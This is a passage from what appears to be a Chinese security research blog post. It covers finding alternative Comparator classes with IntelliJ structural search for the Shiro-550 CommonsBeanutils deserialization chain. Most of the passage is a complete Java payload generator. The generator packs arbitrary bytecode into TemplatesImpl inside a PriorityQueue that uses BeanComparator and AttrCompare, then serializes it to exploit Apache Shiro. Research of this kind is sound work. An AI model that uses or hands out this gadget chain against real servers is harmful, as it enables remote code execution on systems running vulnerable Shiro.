

可以看到上图中包含了在`Shiro550 CB`链中，师傅们提到用到的`BeanComparator`，P神用的`CaseInsensitiveComparator`，还有其他的合适的类

初步尝试，第一个也是OK的，下方代码33行最后

```
package com.govuln.shiroattack;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.collections.comparators.BooleanComparator;


import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;
import java.util.Properties;

public class MyCommonsBeanutils1Shiro {
    public byte[] getPayload(byte[] clazzBytes) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());


        final BeanComparator comparator = new BeanComparator("class");
        Comparator booleanComparator = new BooleanComparator(true);
        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, booleanComparator);
        priorityQueue.add(true);
        priorityQueue.add(false);

        setFieldValue(priorityQueue, "comparator", comparator);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(comparator, "comparator", new AttrCompare());
        setFieldValue(priorityQueue, "queue", new Object[]{obj,obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(priorityQueue);
        oos.close();

        return barr.toByteArray();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

# When to use it

* **接口实现交叉查询**或**单接口查询时需要排查的数量过多**
* 且有明确的筛选条件去查询对象
* 最好有比较固定格式（查询代码的话可能需要很精细地设置`Tamplate`）  
  格式越固定，`Tamplate`设置越简单

# After All

* 因为还没有很深度地使用，所以存在错误***恳请纠正***
* 改工具还提供代码替换的功能

## After After All

* 师傅们带带我

# Ref

<https://www.jetbrains.com/help/idea/structural-search-and-replace.html>

<https://www.jetbrains.com/help/idea/search-templates.htmls>
